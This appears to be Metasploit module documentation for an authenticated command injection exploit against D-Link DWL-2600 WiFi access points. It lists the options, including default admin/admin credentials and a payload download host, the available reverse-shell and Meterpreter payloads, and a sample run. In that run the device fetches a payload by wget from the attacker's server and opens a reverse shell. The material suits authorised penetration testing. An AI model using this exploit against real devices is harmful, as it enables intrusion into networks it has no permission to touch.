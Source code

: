 # DLINK DWL-2600 Authenticated Command Injection

## Overview
DLINK DWL-2600 WiFi Access Points contain an authenticated command injection vulnerability.  This vulnerability was originally discovered by RAKI BEN HAMOUDA and posted to exploit db here: [https://www.exploit-db.com/exploits/46841](https://www.exploit-db.com/exploits/46841). Original testing was performed against firmware version `4.2.0.15` though other versions are likely affected.

## Options
### HttpUsername
Defaults to admin, this is the username that is used to authenticate to the device
### HttpPassword
Defaults to admin, this is the password that is used to authenticate to the device
### DOWNHOST
Alternative host to request MIPS payload from.
### DOWNFILE
File name to download - defaults to a random value.
### HTTP_DELAY
Time that the HTTP Server will wait for the ELF payload request.

In addition you will probably want to set `LHOST` and `SRVHOST`.

## Payloads
```
msf exploit(linux/http/dlink_dwl_2600_command_injection) > show payloads

Compatible Payloads
===================

   #   Name                                    Disclosure Date  Rank    Check  Description
   -   ----                                    ---------------  ----    -----  -----------
   0   generic/custom                                           normal  No     Custom Payload
   1   generic/shell_bind_tcp                                   normal  No     Generic Command Shell, Bind TCP Inline
   2   generic/shell_reverse_tcp                                normal  No     Generic Command Shell, Reverse TCP Inline
   3   linux/mipsle/exec                                        normal  No     Linux Execute Command
   4   linux/mipsle/meterpreter/reverse_tcp                     normal  No     Linux Meterpreter, Reverse TCP Stager
   5   linux/mipsle/meterpreter_reverse_http                    normal  No     Linux Meterpreter, Reverse HTTP Inline
   6   linux/mipsle/meterpreter_reverse_https                   normal  No     Linux Meterpreter, Reverse HTTPS Inline
   7   linux/mipsle/meterpreter_reverse_tcp                     normal  No     Linux Meterpreter, Reverse TCP Inline
   8   linux/mipsle/reboot                                      normal  No     Linux Reboot
   9   linux/mipsle/shell/reverse_tcp                           normal  No     Linux Command Shell, Reverse TCP Stager
   10  linux/mipsle/shell_bind_tcp                              normal  No     Linux Command Shell, Bind TCP Inline
   11  linux/mipsle/shell_reverse_tcp                           normal  No     Linux Command Shell, Reverse TCP Inline

```

## Scenarios
```
msf exploit(linux/http/dlink_dwl_2600_command_injection) > exploit

[*] Started reverse TCP handler on 192.168.0.101:4444 
[*] 192.168.0.100:80 - Trying to login with admin / admin
[+] 192.168.0.100:80 - Successful login admin/admin
[+] 192.168.0.100:80 - Received Auth token: SAZxUXJsuDwQDVhqLayWvGZNlWDIODhi
[*] Using URL: http://0.0.0.0:8080/mnHnGuZ0euTGyf5
[*] Local IP: http://192.168.0.101:8080/mnHnGuZ0euTGyf5
[*] Sending CGI payload using token: SAZxUXJsuDwQDVhqLayWvGZNlWDIODhi
[*] Client 192.168.0.100 (Wget) requested /mnHnGuZ0euTGyf5
[*] Sending payload to 192.168.0.100 (Wget)
[*] Command Stager progress -  54.24% done (64/118 bytes)
[*] Sending CGI payload using token: SAZxUXJsuDwQDVhqLayWvGZNlWDIODhi
[*] Command Stager progress -  72.88% done (86/118 bytes)
[*] Sending CGI payload using token: SAZxUXJsuDwQDVhqLayWvGZNlWDIODhi
[*] Command shell session 3 opened (192.168.0.101:4444 -> 192.168.0.100:33318) at 2020-03-26 20:10:26 -0500
[*] Server stopped.
```
